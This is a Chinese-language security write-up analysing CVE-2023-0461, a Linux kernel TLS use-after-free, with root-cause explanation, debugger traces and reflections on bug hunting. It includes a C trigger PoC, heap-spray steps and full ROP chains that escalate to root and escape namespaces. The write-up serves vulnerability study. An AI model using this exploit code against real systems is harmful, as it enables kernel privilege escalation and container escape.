


# 奇安信攻防社区-CVE-2023-0461 Linux 内核 UAF 漏洞分析与漏洞利用解读

### CVE-2023-0461 Linux 内核 UAF 漏洞分析与漏洞利用解读

Linux 内核在处理  icsk-&gt;icsk\_ulp\_data 指针时存在错误导致 UAF. 漏洞分析 tcp\_set\_ulp 里面会分配和设置 icsk-&gt;icsk\_ulp\_data，其类型为 tls\_context tcp\_setsockopt do\_tcp\_setsock...

Linux 内核在处理 icsk->icsk\_ulp\_data 指针时存在错误导致 UAF.

## 漏洞分析

tcp\_set\_ulp 里面会分配和设置 icsk->icsk\_ulp\_data，其类型为 tls\_context

-   tcp\_setsockopt
    
    -   do\_tcp\_setsockopt
        
    -   tcp\_set\_ulp --> \_\_tcp\_set\_ulp
        
        -   tls\_init --> tls\_ctx\_create
            
        
        1.  ctx = kzalloc(sizeof(\*ctx), GFP\_ATOMIC);
        2.  <span style="font-weight: bold;" data-type="strong">rcu\_assign\_pointer(icsk->icsk\_ulp\_data, ctx);</span>

如果 socket 设置 ulp 后进入 listen 状态，然后有其他 socket 发起 connect 系统调用请求连接，新创建的 sk 对象会拷贝 icsk->icsk\_ulp\_data 指针，相关代码位于 sk\_clone\_lock 函数：

-   tcp\_v4\_syn\_recv\_sock
    
    -   tcp\_create\_openreq\_child
        
    -   inet\_csk\_clone\_lock
        
        -   sk\_clone\_lock
            
        
        1.  newsk = sk\_prot\_alloc(prot, priority, sk->sk\_family)
            
        2.  sock\_copy(newsk, sk)
            
            -   memcpy(&nsk->sk\_dontcopy\_end, &osk->sk\_dontcopy\_end, prot-><span style="font-weight: bold;" data-type="strong">obj\_size</span> - offsetof(struct sock, sk\_dontcopy\_end)); <span style="font-weight: bold;" data-type="strong">---> 拷贝 icsk->icsk\_ulp\_data</span>

‍

tcp sock 的 prot 定义如下：

```C
struct proto tcp_prot = {
    .obj_size       = sizeof(struct tcp_sock),
}

#define sk_dontcopy_begin   __sk_common.skc_dontcopy_begin
#define sk_dontcopy_end     __sk_common.skc_dontcopy_end
struct sock {
    struct sock_common  __sk_common;
    ....
}

struct inet_sock {
    struct sock     sk;
    ....
}

struct inet_connection_sock {
    /* inet_sock has to be the first member! */
    struct inet_sock      icsk_inet;

    .....
    const struct tcp_ulp_ops  *icsk_ulp_ops;
    void __rcu        *icsk_ulp_data;
}

struct tcp_sock {
    /* inet_connection_sock has to be the first member of tcp_sock */
    struct inet_connection_sock inet_conn;
    .....
}
```

根据 tcp\_prot 的定义，在 sock\_copy 通过 memcpy 拷贝 sk->sk\_dontcopy\_end 后面的成员时就会拷贝 icsk->icsk\_ulp\_data，漏洞的关键点是对象指针拷贝后没有使用引用计数管理，释放其中一个指针就会导致悬垂指针的产生。

这样就会有两个 sk 对象指向同一个 icsk\_ulp\_data 指针，从而会导致 UAF，关键 POC

```C
int tls_ctx_alloc(int port)
{
    struct sockaddr_in addr;
    socklen_t len = sizeof(addr);
    int tls, s;

    tls = socket(AF_INET, SOCK_STREAM, 0);
    s = socket(AF_INET, SOCK_STREAM, 0);

    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INADDR_ANY;
    addr.sin_port = htons(port);

    // Put the socket into ESTABLISHED state
    bind(s, &addr, sizeof(addr));
    listen(s, 0);
    connect(tls, &addr, sizeof(addr));
    accept(s, &addr, &len);

    // Initialize TLS ULP
    setsockopt(tls, SOL_TCP, TCP_ULP, "tls", sizeof("tls"));

    return tls;
}

int clone_ulp(int sk, int port)
{
    struct sockaddr_in addr;
    socklen_t len = sizeof(addr);
    int s, new;

    s = socket(AF_INET, SOCK_STREAM, 0);

    // Disconnect the input socket `sk`
    addr.sin_family = AF_UNSPEC;
    addr.sin_addr.s_addr = INADDR_ANY;
    addr.sin_port = htons(port);
    connect(sk, &addr, sizeof(addr));

    // Listen on `sk` (This should not happen!)
    addr.sin_family = AF_INET;
    bind(sk, &addr, sizeof(addr));
    listen(sk, 0);
    connect(s, &addr, sizeof(addr));

    // Clone icsk_ulp_data
    new = accept(sk, &addr, &len);

    // Now the input socket `sk` and `new`
    // share the same icsk_ulp_data pointer
    return new;
}

tls1 = tls_ctx_alloc(1111);
tls2 = clone_ulp(tls1, 1112);
```

代码执行后 tls1 和 tls2 会指向同一个 icsk\_ulp\_data 指针

拷贝 sk 后的上下文和调用栈，可以看到 sk 和 newsk 都保留了相同的 icsk\_ulp\_data 指针。

```plaintext
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── source:net/core/sock.c+1888 ────
   1883     if (newsk != NULL) {
   1884         struct sk_filter *filter;
   1885  
   1886         sock_copy(newsk, sk);
   1887  
 → 1888         newsk->sk_prot_creator = prot;
   1889  
   1890         /* SANITY */
   1891         if (likely(newsk->sk_net_refcnt))
   1892             get_net(sock_net(newsk));
   1893         sk_node_init(&newsk->sk_node);
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
gef➤  p newsk
$9 = (struct sock *) 0xffff888102aaa400
gef➤  p sk
$10 = (const struct sock *) 0xffff888102aa8000

gef➤  p ((struct inet_connection_sock *) 0xffff888102aaa400)->icsk_ulp_data
$8 = (void *) 0xffff888101f89800
gef➤  p ((struct inet_connection_sock *) 0xffff888102aa8000)->icsk_ulp_data
$11 = (void *) 0xffff888101f89800

gef➤  bt
#0  sk_clone_lock (sk=sk@entry=0xffff888102aa8000, priority=priority@entry=0xa20) at net/core/sock.c:1888
#1  0xffffffff81ac359c in inet_csk_clone_lock (sk=sk@entry=0xffff888102aa8000, req=req@entry=0xffff888102a58130, priority=priority@entry=0xa20) at net/ipv4/inet_connection_sock.c:833
#2  0xffffffff81ae8883 in tcp_create_openreq_child (sk=sk@entry=0xffff888102aa8000, req=req@entry=0xffff888102a58130, skb=skb@entry=0xffff888102a34a00) at net/ipv4/tcp_minisocks.c:460
#3  0xffffffff81ae69bc in tcp_v4_syn_recv_sock (sk=0xffff888102aa8000, skb=0xffff888102a34a00, req=0xffff888102a58130, dst=0xffff888102885500, req_unhash=0x0 <fixed_percpu_data>, own_req=0xffffc90000003bbf) at net/ipv4/tcp_ipv4.c:1526
#4  0xffffffff81b27ff6 in tcp_get_cookie_sock (sk=sk@entry=0xffff888102aa8000, skb=skb@entry=0xffff888102a34a00, req=req@entry=0xffff888102a58130, dst=dst@entry=0xffff888102885500, tsoff=tsoff@entry=0xac49c09b) at net/ipv4/syncookies.c:209
#5  0xffffffff81b28919 in cookie_v4_check (sk=sk@entry=0xffff888102aa8000, skb=skb@entry=0xffff888102a34a00) at net/ipv4/syncookies.c:444
#6  0xffffffff81ae6905 in tcp_v4_cookie_check (skb=0xffff888102a34a00, sk=0xffff888102aa8000) at net/ipv4/tcp_ipv4.c:1632
#7  tcp_v4_do_rcv (sk=sk@entry=0xffff888102aa8000, skb=skb@entry=0xffff888102a34a00) at net/ipv4/tcp_ipv4.c:1684
#8  0xffffffff81ae84c4 in tcp_v4_rcv (skb=0xffff888102a34a00) at net/ipv4/tcp_ipv4.c:2047
#9  0xffffffff81ab6110 in ip_protocol_deliver_rcu (net=net@entry=0xffff888101d58000, skb=skb@entry=0xffff888102a34a00, protocol=<optimized out>) at net/ipv4/ip_input.c:204
#10 0xffffffff81ab62f4 in ip_local_deliver_finish (net=net@entry=0xffff888101d58000, sk=sk@entry=0x0 <fixed_percpu_data>, skb=skb@entry=0xffff888102a34a00) at net/ipv4/ip_input.c:231
#11 0xffffffff81ab6382 in NF_HOOK (sk=0x0 <fixed_percpu_data>, pf=0x2, hook=0x1, in=<optimized out>, out=0x0 <fixed_percpu_data>, okfn=0xffffffff81ab6290 <ip_local_deliver_finish>, skb=0xffff888102a34a00, net=0xffff888101d58000) at ./include/linux/netfilter.h:301
#12 NF_HOOK (pf=0x2, sk=0x0 <fixed_percpu_data>, out=0x0 <fixed_percpu_data>, okfn=0xffffffff81ab6290 <ip_local_deliver_finish>, in=<optimized out>, skb=0xffff888102a34a00, net=0xffff888101d58000, hook=0x1) at ./include/linux/netfilter.h:295
#13 ip_local_deliver (skb=0xffff888102a34a00) at net/ipv4/ip_input.c:252
#14 0xffffffff81ab5ac7 in dst_input (skb=0xffff888102a34a00) at ./include/net/dst.h:447
#15 ip_rcv_finish (net=net@entry=0xffff888101d58000, sk=sk@entry=0x0 <fixed_percpu_data>, skb=skb@entry=0xffff888102a34a00) at net/ipv4/ip_input.c:428
#16 0xffffffff81ab6475 in NF_HOOK (sk=0x0 <fixed_percpu_data>, pf=0x2, hook=0x0, in=0xffff888102b89000, out=0x0 <fixed_percpu_data>, okfn=0xffffffff81ab5a40 <ip_rcv_finish>, skb=0xffff888102a34a00, net=0xffff888101d58000) at ./include/linux/netfilter.h:301
#17 NF_HOOK (pf=0x2, sk=0x0 <fixed_percpu_data>, out=0x0 <fixed_percpu_data>, okfn=0xffffffff81ab5a40 <ip_rcv_finish>, in=0xffff888102b89000, skb=0xffff888102a34a00, net=0xffff888101d58000, hook=0x0) at ./include/linux/netfilter.h:295
#18 ip_rcv (skb=0xffff888102a34a00, dev=0xffff888102b89000, pt=<optimized out>, orig_dev=<optimized out>) at net/ipv4/ip_input.c:539
```

然后在 inet\_csk\_accept 会返回 newsk 给用户态（`tls2`​）

```plaintext
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── source:net/ipv4/inet_c[...].c+496 ────
    491             goto out_err;
    492     }
    493     req = reqsk_queue_remove(queue, sk);
    494     newsk = req->sk;
    495  
 →  496     if (sk->sk_protocol == IPPROTO_TCP &&
    497         tcp_rsk(req)->tfo_listener) {
    498         spin_lock_bh(&queue->fastopenq.lock);
    499         if (tcp_rsk(req)->tfo_listener) {
    500             /* We are still waiting for the final ACK from 3WHS
    501              * so can't free req now. Instead, we set req->sk to
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, stopped 0xffffffff81ac4656 in inet_csk_accept (), reason: SINGLE STEP
[#1] Id 2, stopped 0xffffffff810ec030 in update_sg_lb_stats (), reason: SINGLE STEP
[#2] Id 3, stopped 0xffffffff810e3777 in update_tg_load_avg (), reason: SINGLE STEP
[#3] Id 4, stopped 0xffffffff811034f1 in record_times (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xffffffff81ac4656 → inet_csk_accept(sk=0xffff888102aa8000, flags=<optimized out>, err=0xffffc9000021fdec, kern=<optimized out>)
[#1] 0xffffffff81b028a5 → inet_accept(sock=<optimized out>, newsock=0xffff88810170b800, flags=<optimized out>, kern=<optimized out>)
[#2] 0xffffffff819f5d5a → __sys_accept4_file(file=0xffff888102a85200, file_flags=0x0, upeer_sockaddr=0x7ffed7331840, upeer_addrlen=0x7ffed7331834, flags=0x0, nofile=<optimized out>)
[#3] 0xffffffff819f5e8a → __sys_accept4(fd=<optimized out>, upeer_sockaddr=0x7ffed7331840, upeer_addrlen=0x7ffed7331834, flags=0x0)
[#4] 0xffffffff819f5f2b → __do_sys_accept(upeer_addrlen=<optimized out>, upeer_sockaddr=<optimized out>, fd=<optimized out>)
[#5] 0xffffffff819f5f2b → __se_sys_accept(upeer_addrlen=<optimized out>, upeer_sockaddr=<optimized out>, fd=<optimized out>)
[#6] 0xffffffff819f5f2b → __x64_sys_accept(regs=<optimized out>)
[#7] 0xffffffff81c47248 → do_syscall_64(nr=<optimized out>, regs=0xffffc9000021ff58)
[#8] 0xffffffff81e0008c → entry_SYSCALL_64()
[#9] 0x1 → fixed_percpu_data()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  p newsk
$12 = (struct sock *) 0xffff888102aaa400
gef➤  
```

通过 close 关闭 tls1，然后 tls2 就会执行已经释放的 icsk\_ulp\_data 对象。

​​

‍

## 漏洞利用

漏洞对象 (tls\_context) 在 kmalloc-512 中分配，分配的 flag 为 GPF\_KERNEL

‍

### 简单模式（只启用了 kmalloc-cg）

这个利用方式来源：[https://richiejp.com/linux-kernel-exploit-tls\_context-uaf#the-bug](https://richiejp.com/linux-kernel-exploit-tls_context-uaf#the-bug) ，大概思路：

1.  目标内核会在 kmalloc-cg-xxx 中分配 GFP\_KERNEL\_ACCOUNT 标记的请求，导致无法使用 msg\_msg、sk\_buff 等常用对象占位（理论上应该可以使用 cross cache 攻击）
2.  经过一些尝试作者最后使用了 fuse + setxattr 的方式占位
3.  占位后利用 setsockopt 往释放的 tls\_context（占位后的 xattr 内存）里面写入函数指针，然后 fuse 放行并读取 xattr 泄露内核基地址
4.  再次触发漏洞，修改 tls\_context 的函数指针 ROP

‍

xattr 占位泄露示意图：

​​

‍

### [KCTF 场景](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-0461_mitigation/docs/exploit.md)

核心思路：利用 UAF 对象中的指针，

‍

主要区别是开启了 CONFIG\_KMALLOC\_SPLIT\_VARSIZE，导致 xattr、msg\_msg 等编译时无法确定具体大小的内存会在 dyn-kmalloc-xxx 中分配，作者的思路是先将 tls\_context 的 UAF 转换为 fqdir 的 UAF，示意图如下：

​​

然后利用 fqdir 对象中的指针（fqdir->rhashtable.tbl），实现 dyn-kmalloc-1k 的 UAF，因为 bucket\_table 的结构体不是定长的会在 dyn-kmalloc 区域分配，然后用 user\_key\_payload 占位就能将 kmalloc-512 的 UAF 转换为 dyn-kmalloc-1024 的 UAF

​​​​​​

然后用 Qdisc 对象占位 user\_key\_payload，再读取 user\_key\_payload 就能泄露出需要的地址。

​​​​

‍

然后释放 key，再重新占位就能控制 Qdisc，劫持 qdisc->enqueue 实现 ROP

​​

‍

由于 qdisc->enqueue 在 中断上下文（原子上下文）和 RCU 临界区中执行，所以在 ROP 返回用户态前需要设置一些字段避免内核崩溃：

-   "Illegal context switch in RCU read-side critical section"
-   "BUG: scheduling while atomic: \[...\]"

‍

绕过 RCU 临界区的检测，设置：​`current->rcu_read_lock_nesting = 0`​

```C
    // current = find_task_by_vpid(getpid())
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = getpid();                   // pid
    rop[idx++] = kbase + 0xffffffff8110a0d0; // find_task_by_vpid

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff810a08ae; // pop rsi ; ret
    rop[idx++] = 0x46c;                      // offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff8107befa; // add rax, rsi ; jmp 0xffffffff82404440 (retpoline)

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8167104b; // mov qword ptr [rax], rcx ; jmp 0xffffffff82404440 (retpoline)
```

绕过原子上下文的检测：

```C
    // Bypass "schedule while atomic": set oops_in_progress = 1 
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 1;                          // 1
    rop[idx++] = kbase + 0xffffffff810a08ae; // pop rsi ; ret
    rop[idx++] = kbase + 0xffffffff8419f478; // oops_in_progress
    rop[idx++] = kbase + 0xffffffff81246359; // mov qword ptr [rsi], rdi ; jmp 0xffffffff82404440 (retpoline)
```

‍

完整的 ROP 链

```c
    rop = (uint64_t *)&data[0x88];

    // oops_in_progress = 1 (Bypass schedule while atomic)
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 1;                          // 1
    rop[idx++] = kbase + 0xffffffff810fb7dd; // pop rsi ; ret
    rop[idx++] = kbase + 0xffffffff8419f478; // oops_in_progress
    rop[idx++] = kbase + 0xffffffff81246359; // mov qword ptr [rsi], rdi ; jmp 0xffffffff82404440 (retpoline)

    // creds = prepare_kernel_cred(0)
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff811139d0; // prepare_kernel_cred

    // commit_creds(creds)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8204933b; // mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = kbase + 0xffffffff811136f0; // commit_creds

    // current = find_task_by_vpid(getpid())
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = getpid();                   // pid
    rop[idx++] = kbase + 0xffffffff8110a0d0; // find_task_by_vpid

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff810fb7dd; // pop rsi ; ret
    rop[idx++] = 0x46c;                      // offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff8107befa; // add rax, rsi ; jmp 0xffffffff82404440 (retpoline)

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8167104b; // mov qword ptr [rax], rcx ; jmp 0xffffffff82404440 (retpoline)

    // task = find_task_by_vpid(1)
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 1;                          // pid
    rop[idx++] = kbase + 0xffffffff8110a0d0; // find_task_by_vpid

    // switch_task_namespaces(task, init_nsproxy)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8204933b; // mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = kbase + 0xffffffff810fb7dd; // pop rsi ; ret
    rop[idx++] = kbase + 0xffffffff83661680; // init_nsproxy (from parse_mount_options)
    rop[idx++] = kbase + 0xffffffff81111c80; // switch_task_namespaces

    // Back to userspace
    rop[idx++] = kbase + 0xffffffff822010c6; // swapgs_restore_regs_and_return_to_usermode + 54
    rop[idx++] = 0;
    rop[idx++] = 0;
    rop[idx++] = (uint64_t)&getroot;
    rop[idx++] = usr_cs;
    rop[idx++] = usr_rflags;
    rop[idx++] = (uint64_t)(stack + 0x80000);
    rop[idx++] = usr_ss;
```

‍

## 总结与思考

‍

<span style="font-weight: bold;" data-type="strong">漏洞挖掘方面</span>

这个漏洞的触发需要对内核 tcp 协议交互相关的代码非常熟悉，特别是 listen 和 accept 相关的代码，否则可能很难通过代码审计的方式发现该漏洞，我猜测可能是 fuzz 发现的。如果要通过代码审计来发现该漏洞，我认为可能的步骤如下：

1.  关注对象中的指针域，这些指针域如果没有引用计数且发生了指针拷贝就容易在删除时清理错误导致 UAF。
2.  寻找指针域的使用点、调用栈，主要是指针拷贝和指针释放位置。（该漏洞的指针拷贝点藏得很深 sk\_clone\_lock）
3.  指针释放后，其他 sk 对象中的指针有没有被清空，没有的话就会导致 UAF.

‍

<span style="font-weight: bold;" data-type="strong">漏洞利用方面</span>

两种利用方式最后都将漏洞对象转换为了 数据对象（xattr、user\_key\_payload 这种数据可以控制和取回的对象），然后用有指针的重叠对象占位数据对象，实现把内核地址写入数据对象，最后读取数据对象就可以泄露地址，然后再次释放&分配数据对象，就能控制重叠对象中的指针。

‍

第二个漏洞利用通过将 tls\_context 的 UAF 转换为 fqdir 对象的 UAF，通过两个指向 fqdir 的指针，实现 fqdir->rhashtable.tbl 对象的间接 UAF，这种利用方式增加利用策略的选择（从 kmalloc-512 ---> dyn-kmalloc），这种利用方式应该属于通用思路，将漏洞转换为 两个同类型 T 指针指向同一个内存后，就能够实现 T 或者 T->ptr 对象的 UAF，然后按需选择利用哪个对象的 UAF.

​​

此外由于 socket 对象是通过 rcu 释放的，所以在 close 后会把对象放到 rcu 待释放链表，然后等 RCU 宽限期过了后才会使用 kfree 释放对象，所以在 exploit 中会发现先 close(tls2) 然后喷 fqdir 对象：

```c
    // Step 1.0 - Close the first socket
    // icsk_ulp_data (tls_context) is freed but still accessible from the second socket
    close(tls1);

    // Wait for the RCU grace period:
    // usually sleep(1) is enough, but for tls_context sometimes it takes longer ¯\_(ツ)_/¯
    waitfor(6, "Freeing ctx");

    // Step 1.1 - Close the second socket and before the icsk_ulp_data pointer (tls_context)
    // is freed again (during the RCU grace period) replace it with a fqdir object
    close(tls2);
    for (int i = 0; i < N_SPRAY_1; i++)
        task_set_state(t1[i], TASK_SPRAY_FQDIR);
```

理解：

1.  在 close(tls1) 后 , tls2 引用的就是已经释放的 tls\_context
2.  close(tls2) 后会把已经释放的 sk 放到 RCU 链表
3.  通知堆喷线程开始 分配 fqdir 会占位 已经释放的 tls\_context
4.  RCU 宽限期到达，释放 sk 的时候会释放 fqdir，从而将漏洞转换为 fqdir 的 UAF.

‍

‍

## 参考链接

-   [https://richiejp.com/linux-kernel-exploit-tls\_context-uaf#the-bug](https://richiejp.com/linux-kernel-exploit-tls_context-uaf#the-bug)
-   [https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-0461\_mitigation/docs/exploit.md](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-0461_mitigation/docs/exploit.md)

‍
